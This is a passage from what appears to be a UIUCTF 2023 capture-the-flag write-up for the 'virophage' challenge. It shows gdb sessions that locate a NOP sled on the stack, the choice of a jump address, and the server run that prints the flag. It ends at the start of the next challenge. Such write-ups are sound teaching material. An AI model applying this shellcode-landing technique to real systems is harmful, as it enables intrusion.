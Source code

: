 Save the output to `/home/user/arg`. Now attach the `gdb` to the spawner again and find where our shellcode is:

```
(gdb) file virophage
Reading symbols from virophage...
(gdb) r $(base64 -d /home/user/arg)
Starting program: /home/user/virophage $(base64 -d /home/user/arg)
Please enter a number in hex: 0x0
You entered: 0x00000000
execve...
process 123 is executing new program: /tmp/virus

Program received signal SIGSEGV, Segmentation fault.
0x00000000 in ?? ()
(gdb) find $esp, +0x200, (int)0x90909090
0xffffde22
0xffffde23
0xffffde24
0xffffde25
0xffffde26
0xffffde27
0xffffde28
0xffffde29
0xffffde2a
0xffffde2b
0xffffde2c
0xffffde2d
0xffffde2e
0xffffde2f
0xffffde30
...
```

I choose `0xffffde30` as the entry point to avoid any alignment problems.
Now we go to the server, write the encoded shellcode to `/home/user/arg` and run the spawner:

```
uiuctf-2023:~$ ./virophage $(base64 -d /home/user/arg)
Please enter a number in hex: 0xffffde30
You entered: 0xFFFFDE30
execve...
uiuctf{windows_defender_wont_catch_this_bc238ba4}
Segmentation fault
```

## Am I not root?

> Ever wondered why nsjail prints a giant warning when it's run as root? Well, now you know ;)

Hint:

> I disabled coredumps and modules. What else are there?
